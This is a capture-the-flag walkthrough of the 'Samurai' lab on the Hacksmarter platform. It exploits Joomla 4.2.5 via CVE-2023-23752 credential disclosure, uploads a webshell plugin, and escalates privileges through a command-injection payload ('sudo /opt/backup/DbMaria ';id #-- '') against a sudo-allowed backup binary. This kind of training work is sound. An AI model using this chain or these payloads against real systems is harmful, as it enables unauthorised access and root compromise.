Samurai: Hacksmarter Walkthrough
April 22,2026

April 22,2026
Below is a step by step walkthrough of Samurai, taken from Tyler Ramsbey's Hacksmarter Platform. The author is Streetcoder.
This lab is easy difficulty and includes some web pentesting, OSINT, and code review; but if you stay focused you might just learn something.
-
For this walkthrough I will use my own Kali Virtual Machine. First start the Samurai machine and wait for it to boot up. Open up a terminal and start an OpenVPN
connection with the config files they provide.
I also changed my Hosts file to set the IP to the hostname: Samurai.com
-
Find the below flags:
What is the user flag?
What is the root flag?

- Step 1: Rustscan
- Step 2: Directory Enumeration
- Step 3: Scanning CMS
- Step 4: Joomla Exploit
- Step 5: Initial Access
- Step 6: 2nd Exploit in Joomla: Webshell
- Step 7: find vulnerability for priv escalation
- Step 8: Find command injection vulnerability
- ***Note: Since this was my first try at Hacksmarter, I found the setup for machines extremely easy and better than Tryhackme, so far.
Setup
Table of Contents
USER Flag
ROOT Flag
Click here to navigate to the Samurai room.
Recon#1
Step 1: RUSTSCAN

For a scan, I use this command in RustScan. It’s faster and more robust.“sudo rustscan -a ipadressProvided --ulimit 5000”
PORT STATE SERVICE REASON
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.52 ((Ubuntu))
Only 2 ports that I see are open, and we can investigate later those software versions.
Step 2:Directory Enumeration
I like to use Go Buster.
Using this command:
gobuster dir --url http://10.1.57.79 --w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -x php,html,js,txt,bak -t 100 -b 200
I like to use Seclist and also I used the -b flag to filter out the Negative Status codes: 200.

media (Status: 301) [Size: 308] [--> http://10.1.57.79/media/]templates (Status: 301) [Size: 312] [--> http://10.1.57.79/templates/]
modules (Status: 301) [Size: 310] [--> http://10.1.57.79/modules/]
assets (Status: 301) [Size: 309] [--> http://10.1.57.79/assets/]
images (Status: 301) [Size: 309] [--> http://10.1.57.79/images/]
plugins (Status: 301) [Size: 310] [--> http://10.1.57.79/plugins/]
includes (Status: 301) [Size: 311] [--> http://10.1.57.79/includes/]
language (Status: 301) [Size: 311] [--> http://10.1.57.79/language/]
components (Status: 301) [Size: 313] [--> http://10.1.57.79/components/]
api (Status: 301) [Size: 306] [--> http://10.1.57.79/api/]
cache (Status: 301) [Size: 308] [--> http://10.1.57.79/cache/]
libraries (Status: 403) [Size: 275] tmp (Status: 301) [Size: 306] [--> http://10.1.57.79/tmp/]
layouts (Status: 301) [Size: 310] [--> http://10.1.57.79/layouts/]
administrator (Status: 301) [Size: 316] [--> http://10.1.57.79/administrator/]
cli (Status: 301) [Size: 306] [--> http://10.1.57.79/cli/]
server-status (Status: 403) [Size: 275]
I looked through all of these and couldn't find anything interesting, but then
I logged in the administrator endpoint and saw that the Content Managment System was Joomla.
Step 3: Scanning CMS
So I looked for a scanner for that particular CMS, and found Joomscan.
Joomscan
[+] Detecting Joomla Version
[++] Joomla 4.2.5

Step 4: Joomla Exploit
Since I had the Joomla version, I checked in Metasploit for any exploits, but non that were interesting. Checking in ExploitDB I found:
Exploit 1: CVE-2023-23752 that provides Unauthenticated information disclosure!
This CVE affected Version: 4.0.0 < 4.2.8 (it means from 4.0.0 up to 4.2.7).
I downloaded the Github repo from here.

Running the ruby script, it will extract the information and output it nicely.
 Looks like a username and password for a database and a local user.
Looks like a username and password for a database and a local user.Step 5: Initial Access
So, now that we have an initial username and password, we can try it in the administration login page.

And voila!

Now we have access to the admin portal for Joomla (with Super User access), we can modifiy templates and upload extensions.This can be exteremly useful.
I found this site, that provides a step by step to go from CVE-2023-23752 to a remote code execution.
https://www.vulncheck.com/blog/joomla-for-rce and this site led me a Github page called: https://github.com/p0dalirius/Joomla-webshell-plugin
Below are the steps to go from that CVE to a webshell that leads to the user flag.
Step 6: 2nd Exploit in Joomla: Webshell
For the below exploit I used this reference: https://github.com/p0dalirius/Joomla-webshell-plugin
Download the zip file from the Joomla-webshell-plugin repo and save it.
Once you are logged in, go to SYSTEM --> EXTENSION --> INSTALL EXTENSION

Find the file you want to upload. Here is where mine was located:/home/kali/Downloads/Joomla-webshell-plugin-master/dist/
It's called joomla-webshell-plugin-1.1.0.zip
After you've uploaded this file, use this payload:
sudo python console.py -t http://samurai.com
And this will give you a webshell prompt!

Type in: ls -al /var/www and you should see the user.txt Flag
type in: cat /var/www/user.txt and bingo!
Root Flag
Step 7: Find vulnerability for Privilege Escalation
By using "sudo -l" to find any binaries we can use without a password, we can see:

This points us towards the folder /opt/backup/DbMaria, which is a fork from mySql database system. By using this command : strings /opt/backup/DbMariaIt will output any human-readable strings that might be of help.

Step 8: Final payload
This line: mariadb-dump --socket=/run/mysqld/mysqld.sock -u root %s > /tmp/backup.sqlshows that a command injection is possible since the placeholder %s can be used to inject code.
By using this payload:
sudo /opt/backup/DbMaria ';id #-- '
I can escape with an apostrophe and enter whatever commands I need.

And with this you can cat into the root.txt